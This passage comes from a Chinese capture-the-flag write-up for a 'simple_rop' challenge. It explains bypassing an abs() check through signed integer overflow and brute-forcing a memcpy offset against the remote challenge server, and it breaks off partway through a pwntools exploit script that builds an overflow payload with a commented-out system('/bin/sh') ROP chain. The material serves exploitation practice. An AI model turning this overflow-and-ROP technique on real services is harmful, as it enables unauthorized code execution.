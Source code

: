 > `abs`函数的返回值是有符号整数`int`，表示范围是`-2147483648~2147483647`
>
> 当`ptr=-2147483648`时，对应的绝对值是`2147483648`，超过了`int`的最大表示范围，产生溢出
>
> 溢出的结果是`-2147483648`，所以此时`abs`函数的返回值是个负数
>

此外，这题给的`ptr`是无符号整数，因此直接让`ptr=2147483648`，也可以实现有符号整数溢出



绕过了`abs`之后还有一个坑，`memcpy`的目的地址会加上`v6`，然鹅`v6`的值并不确定...我在本地攻击时`v6=2`，而远程攻击却失败了，原因就是本地和远程环境`v6`的值不一样...

解决办法是写个脚本，爆破一下`offset`（`v6`取值范围为`0~32`，对应`offset`取值范围`4~36`）

```
[+] copy over!
    You need search Rop
[+] right! offset=36
[*] Closed connection to 47.106.94.13 port 50012
```

爆破脚本如下：

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './simple_rop'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

elf = ELF(local_file)

# context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

system = elf.symbols['system']
binsh = 0x804a050
main = 0x804864B

flag = 0

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def exp(p,offset):        
    global flag
    # offset = 34
    payload = 'A'*offset
    # payload += p32(system) + p32(main) + p32(binsh)
```